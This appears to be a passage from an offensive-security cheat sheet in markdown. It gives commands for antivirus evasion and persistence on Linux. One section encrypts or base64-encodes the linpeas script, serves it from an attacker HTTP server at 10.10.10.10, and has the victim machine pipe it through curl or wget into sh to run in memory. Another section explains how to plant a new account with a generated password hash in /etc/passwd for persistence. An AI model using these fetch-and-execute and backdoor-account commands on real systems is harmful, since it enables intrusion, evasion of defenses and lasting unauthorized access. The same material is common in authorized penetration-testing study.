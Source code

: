 ### AV bypass

#### Using open-ssl encryption

```bash
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc

#Start HTTP server
sudo python -m SimpleHTTPServer 80

#Download from the victim's machine
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh
```

#### Using a base64-encoded payload

```bash
#convert to base64
base64 -w0 linpeas.sh > lp.enc 

#Start HTTP server
sudo python -m SimpleHTTPServer 80

#Download from the victim, decode from base64, run in-memory
curl 10.10.10.10/lp.enc | base64 -d | sh
#or
wget -O - http://10.10.10.10/lp.enc | base64 -d | sh
```

## /etc/passwd

### Add Account & Password to /etc/passwd

* Generate password with `openssl passwd -1 -salt $username $password`&#x20;
* Add to `/etc/passwd` file which is in the format:&#x20;
  * `$UserName:$generated_password:$UID:$GUID:$comment:$home_dir:$default_shell`&#x20;
  * (assumes you have write privilege to this file!).&#x20;
* Can be used for persistence.

#### Create SHA512 password hash for import into passwd file:

```python
python -c "import crypt, getpass, pwd; \
             print(crypt.crypt('password', '\$6\$saltsalt\$'))"
             
-or-
python -c 'import crypt,getpass; \
             print(crypt.crypt(getpass.getpass(), crypt.mksalt(crypt.METHOD_SHA512)))'

-or-
python -c 'import crypt; \
             print(crypt.crypt("somesecret", crypt.mksalt(crypt.METHOD_SHA512)))'
```
